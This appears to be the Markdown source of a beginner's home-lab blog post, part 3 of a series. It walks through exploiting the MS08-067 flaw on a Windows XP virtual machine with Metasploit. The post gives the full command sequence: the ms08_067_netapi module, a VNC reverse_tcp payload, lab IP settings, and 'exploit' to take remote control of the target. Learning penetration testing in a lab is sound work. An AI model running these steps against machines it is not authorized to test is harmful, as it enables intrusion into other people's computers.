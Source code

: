 ```yaml
---
layout: post
title:  "First Hack Part 3 (Exploiting The Vulnurability)"
date:   2018-03-28 14:56:03 -0400
categories: jekyll update
---
```


<br>[Part 1 (Installing The Virtual Network)][part-1]
<br>[Part 2 (Searching for Targets and their Weaknesses)][part-2]

Legal Disclosure: Don't do this on networks other than your own without written consent from the network administrator. Otherwise you would be commiting an illegal act.

Now that we have sucessfully obtained a list of all the vulnurabilities, we are going to use one of the bigger ones. You could use more than one of the critical vulnurabilities in Nessus but we are going to use MS08_067

<b>Finding The Commands To Hack Windows XP

Once we have the codes, we need to look them up in the "Rapid 7" database. Rapid 7 is a company that develops a cool called Metasploit, which is the tool we use to actually hack another computer. We are going to use a tool called a VNC (Virtual Network Computing). This is a window that contains the remote operating system. It allows mouse and keyboard controlls, much like the virtual machine you are using now.

First, go to the [Rapid7 Vulnurabilities & Exploit Database][Rapid7-DB]

Type in the vulnurability code we want to use. In our particular case, it is MS08_067

In the dropdown menue to the right of the search field, choose "Metasploit Moduels"

Look under "Moduel Name" and identify the code exploit/windows/smb/ms08_067_netapi. We will use this later

<b>Loading Exploits and Payloads
<br>[Offensive Security - Metasploit Commands][Metasploit-Commands]
<br>[Offensive Security - Using Exploits][Using-Exploits]

Open terminal and type in the following command

{% highlight ruby %}
msfconsole
{% endhighlight %}

Wait for it to load then type in the following

{% highlight ruby %}
use exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

Next we will need to use a payload. A payload is basicly software that takes advantage of the exploit. So type

{% highlight ruby %}
set PAYLOAD /windows/vncinject/reverse_tcp
{% endhighlight %}

<b>Setting Up The Attack

You will need to load a list of settings before running the command to hack the Windows XP computer. We can do this by typing

{% highlight ruby %}
show options
#you can use show options for any exploit/payload you end up choosing in the future.
{% endhighlight %}

You should get something like the image below

![image tooltip](/blog/images/ms08_067/msfconsole_show_options1.JPG)

You may notice that a fiew of the fields are empty. RHOST and LHOST. RHOST is the remote host. The IP of the target computer. LHOST is the local host. Your computer.

You may not know your own IP. So open a new terminal tab with Ctrl+Shift+T and type

{% highlight ruby %}
ifconfig
{% endhighlight %}

You should see something like this. I highlighted the IP in yellow.

![image tooltip](/blog/images/ms08_067/ifconfig.JPG)

Type in the following, but replace the RHOST IP with the Windows IP you found earlier and LHOST of the Kali IP.

{% highlight ruby %}
set RHOST 192.168.1.244
{% endhighlight %}

{% highlight ruby %}
set LHOST 192.168.1.48
{% endhighlight %}

We have everything we need right? Just one more setting. This will allow us to controll the computer rather than simply spy on it.

{% highlight ruby %}
set ViewOnly false
{% endhighlight %}

<b>Hack It!

Now run show options again and you should have something like this.

![image tooltip](/blog/images/ms08_067/msfconsole_show_options2.JPG)

Run the following command.

{% highlight ruby %}
exploit
{% endhighlight %}

Congradulations. You did it! You can now do whatever you like to the target computer.

![image tooltip](/blog/images/ms08_067/owned.JPG)

<br>[Homepage][homepage]

[part-1]: MS08_067_Part_1.html
[part-2]: MS08_067_Part_2.html
[homepage]: https://danielloosec.github.io/blog/
[Rapid7-DB]: https://www.rapid7.com/db
[Using-Exploits]: https://www.offensive-security.com/metasploit-unleashed/exploits/
[Metasploit-Commands]: https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/




